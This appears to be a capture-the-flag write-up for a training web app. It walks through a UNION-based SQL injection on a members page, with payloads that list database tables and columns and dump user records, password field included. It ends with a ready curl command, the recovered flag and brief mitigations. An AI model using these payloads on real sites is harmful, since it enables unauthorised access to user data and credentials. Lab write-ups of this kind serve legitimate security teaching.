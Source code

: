 
## Exploit: SQL injection in members list
The `/members` page allows the user to query from a list of members using their id. However, the raw user input is passed as an SQL query, which is verified by a simple litmus test using the true value `0=0`

![image](https://hackmd.io/_uploads/ByRhAxZmex.png)

> 0=0 evaluates to true, and when used in a WHERE clause, it will cause the clause to return all the rows

With this information in mind, an initial structure of the query can be formed, which is believed to be something like this `"SELECT * FROM members WHERE id = " + user_query + ";"` where the results is expecting a single table.

In MYSQL, we are able to combine different data into 1 table using the `UNION SELECT` function. Which we will use to append more information to the orignal query such as the table names. 

To get such information in MYSQL, we need to query from the `information_schema.tables` field.

```SQL
0=0 UNION SELECT table_name FROM information_schema.tables
```

This will give us an error `The used SELECT statements have a different number of columns` which shows us that we are on the right path. We just needed to match the number of columns selected in the UNION SELECT statement to match the number of columns selected in the original query, which turns out to be 2 

```SQL
0=0 UNION SELECT table_name, table_type FROM information_schema.tables 
```

![image](https://hackmd.io/_uploads/HJMkbWb7ee.png)

From the results, we can determine that the name of the members table is called `users`. Which we can use to search for its column names using the following query

```SQL
0=0 UNION SELECT COLUMN_NAME, TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS 
```

> Adding a WHERE clause to fitler by table name is not viable, since the program automatically escapes any quotes for strings by adding a backtick (\) which causes syntax error

![image](https://hackmd.io/_uploads/Bkt1M-ZQle.png)

With this, the full information of all the users can be displayed with the following SQL query

```
0=0 UNION SELECT first_name, town FROM users UNION SELECT  first_name, country FROM users UNION SELECT  first_name, planet FROM users UNION SELECT  first_name, Commentaire FROM users UNION SELECT  first_name, countersign FROM users 
```

which can be made to a curl command

```
curl "$TARGET_IP/?page=member&id=0%3D0+UNION+SELECT+first_name%2C+town+FROM+users+UNION+SELECT++first_name%2C+country+FROM+users+UNION+SELECT++first_name%2C+planet+FROM+users+UNION+SELECT++first_name%2C+Commentaire+FROM+users+UNION+SELECT++first_name%2C+countersign+FROM+users+&Submit=Submit#" | grep Flag
```

Hints were given to the Flag user

![image](https://hackmd.io/_uploads/SJ6qV-Z7ge.png)

![image](https://hackmd.io/_uploads/S1niVZZQel.png)

The decrypted plaintext is FortyTwo
![image](https://hackmd.io/_uploads/Skomrbbmle.png)

which makes the flag `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

### Mitigations
- Use prepared statements in SQL queries
- Use stronger hashing algorithms with more output vector size (harder to wordlist) for passwords
